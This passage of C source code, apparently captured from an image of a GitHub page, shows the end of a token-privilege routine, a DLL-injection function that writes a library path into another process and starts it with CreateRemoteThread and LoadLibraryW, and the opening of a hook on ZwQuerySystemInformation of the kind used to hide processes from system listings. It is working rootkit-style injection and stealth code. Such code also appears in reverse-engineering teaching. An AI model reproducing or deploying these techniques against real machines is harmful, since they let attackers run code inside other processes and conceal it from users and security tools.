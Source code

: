 ```c
    { 
        printf("AdjustTokenPrivileges error: %u\n", GetLastError() ); 
        return FALSE; 
    } 

    if( GetLastError() == ERROR_NOT_ALL_ASSIGNED )
    {
        printf("The token does not have the specified privilege. \n");
        return FALSE;
    } 

    return TRUE;
}

BOOL InjectDll2(HANDLE hProcess, LPCTSTR szDllName)
{
	HANDLE hThread;
	LPVOID pRemoteBuf;
	DWORD dwBufSize = (DWORD)(_tcslen(szDllName) + 1) * sizeof(TCHAR);
	FARPROC pThreadProc;

	pRemoteBuf = VirtualAllocEx(hProcess, NULL, dwBufSize, 
                                MEM_COMMIT, PAGE_READWRITE);
    if( pRemoteBuf == NULL )
        return FALSE;

	WriteProcessMemory(hProcess, pRemoteBuf, (LPVOID)szDllName, 
                       dwBufSize, NULL);

	pThreadProc = GetProcAddress(GetModuleHandleA("kernel32.dll"), 
                                 "LoadLibraryW");
	hThread = CreateRemoteThread(hProcess, NULL, 0, 
                                 (LPTHREAD_START_ROUTINE)pThreadProc, 
                                 pRemoteBuf, 0, NULL);
	WaitForSingleObject(hThread, INFINITE);	

	VirtualFreeEx(hProcess, pRemoteBuf, 0, MEM_RELEASE);

	CloseHandle(hThread);

	return TRUE;
}

NTSTATUS WINAPI NewZwQuerySystemInformation(
    SYSTEM_INFORMATION_CLASS SystemInformationClass, 
	PVOID SystemInformation, 
	ULONG SystemInformationLength, 
	PULONG ReturnLength)
{
	NTSTATUS status;
	FARPROC pFunc;
	PSYSTEM_PROCESS_INFORMATION pCur, pPrev;
	char szProcName[MAX_PATH] = {0,};

	unhook_by_code("ntdll.dll", "ZwQuerySystemInformation", g_pOrgZwQSI);

	pFunc = GetProcAddress(GetModuleHandleA("ntdll.dll"), 
                           "ZwQuerySystemInformation");
	status = ((PFZWQUERYSYSTEMINFORMATION)pFunc)
             (SystemInformationClass, SystemInformation, 
              SystemInformationLength, ReturnLength);

	if( status != STATUS_SUCCESS )
```